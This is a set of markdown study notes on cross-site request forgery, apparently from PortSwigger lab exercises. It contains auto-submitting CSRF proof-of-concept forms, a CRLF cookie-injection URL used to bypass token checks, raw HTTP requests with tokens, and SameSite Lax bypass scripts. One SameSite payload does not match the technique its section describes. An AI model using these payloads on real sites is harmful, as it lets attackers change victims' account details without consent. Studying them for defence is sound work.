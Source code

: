 # Cross-Site Request Forgery

# TABLE OF CONTENT
- **[Burp Suite CSRF PoF](#burp-suite-csrf-pof)**
- **[Bypass CSRF Token Validation](#bypass-csrf-token-validation)**
- **[Bypass SameSite Cookie Restriction](#bypass-samesite-cookie-restriction)**

## Burp Suite CSRF PoF 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af9006603a4c51e8051cb9700570098.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hello&#64;world&#46;com" />
      <input type="hidden" name="csrf" value="ael7zVmkzNrxPKdZ2tQDY5FwfguTGHyU" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Bypass CSRF Token validation


### Check if there's any csrf defense mechanism
We can check this by omitting the **`<input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />`** part from the above payload. 

### CSRF where token validation depends on request method
Most requests are POST request, which validate the csrf token. However, when chaning these requests to other methods, the token is no longer valid. We can test this by changing the request method.

### CSRF where token validation depends on token bieng present
The token is only validated when it is present. When it is not ( by omitting the value field or the whole thinig like no defense mechanism scenario), there is no CSRF tokekn validation.

### CSRF token is not tied to the user session
Check if we can use CSRF token of 1 account to exploit another account. 
1. Log in account A and acquire its token
2. Log in account B and deliver the payload, modify the token with account A's token

### CSRF token is tied to a non-session cookie
Some applications use different frameworks for csrf tokens, which results in two different tokens being present at the same titme.

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

1. Check if the `csrfKey` is tied to `csrf`

| Steps | Results |
| ----- | ------- |
| Log in as `wiener:peter` and acquire the user's `csrfKey` and `csrf` values | |
| Capture the request trying to change the user's email. Modify the csrf token so it becomes invalid | If the application accepts the request, we can conclude the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `carlos:montoya` and capture the user's csrf. Replace wiener's csrf token with carlos' | If the application accepst the request, we can conclud the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `wiener:peter` and replace wiener's csrfKey and csrf tokens with carlos' | If the application accepts the request, we can conclue the csrf and csrfKey are tied together but the pair doesn't tie to the user-session cookie

2. Look for a functionality that allows us to modify the csrfKey. In this case, we can inject in the search function through GET request

```bash
https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()
```
In the response, we should see the `csrfKey` is set as we wish.
4. Deliver the payload

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5009504bab9d186967b5f002b0096.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hello&#64;world&#46;com" />
      <input type="hidden" name="csrf" value="Your-csrf" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-csrfKey%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
**NOTE:** In this case, we assume the search function allows us to set cookies. We can do it directly in the developer tool.

### CSRF where token is duplicated in cookie
Some applications have both csrf token in the session cookies and the request

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

1. Here we can make up any value for the csrf, either through the Developer Tools or through some functionalities that allow us to set cookie.
2. Deliver the payload (which has csrf set to the value we make up in step 1)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="oops12345&#64;example&#46;com" />
      <input type="hidden" name="csrf" value="random" />
      <input type="submit" value="Submit request"
    </form>
    <img src="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=random%3b%20SameSite=None" onerror="document.forms[0].submit();" />
  </body>
</html>
```

## Bypass SameSite Cookie Restriction
### Same Site vs Same Origin
Requests are considered same site when the have the same schemes, Top-Level Domain and the additional level of domain.

![image](https://github.com/user-attachments/assets/37f73966-f260-405b-8407-428ff7cab6a4)

Same origins are considered same origin when they have the same schemes, domain names, port numbers 

![image](https://github.com/user-attachments/assets/dc608dc1-bcee-48b1-86bd-005844d5388c)

- Check if the website have SameSite's value set. Otherwise, it is defaulted to be Lax.

### Bypassing SameSite Lax restrictions using GET requests
PHP Symphony has `_method` that allows us to specify the method sent to the server. A regular POST request can be sent to the server under a form of GET request:

```bash
https://example.com/my-account/change-email?email=pwned@web-security-academy.net&_method=POST
```

Payload 
```bash
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

### Bypassing SameSite Lax restrictions with newly issued cookies
Many applications does not have `SameSite` set, in which case Chrome browser will automatically sets it to `Lax` after 120 seconds. Hence, attackers have a two-minute window to perform such attacks. In other words:
  - Attackers must make the browser issue a new cookie
  - Deliver the payload within the two-minute time frame
A sample payload may look like this

```bash
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
**NOTE:** We use `window.onclick` to invole users' interaction as browsers block pop ups by default.





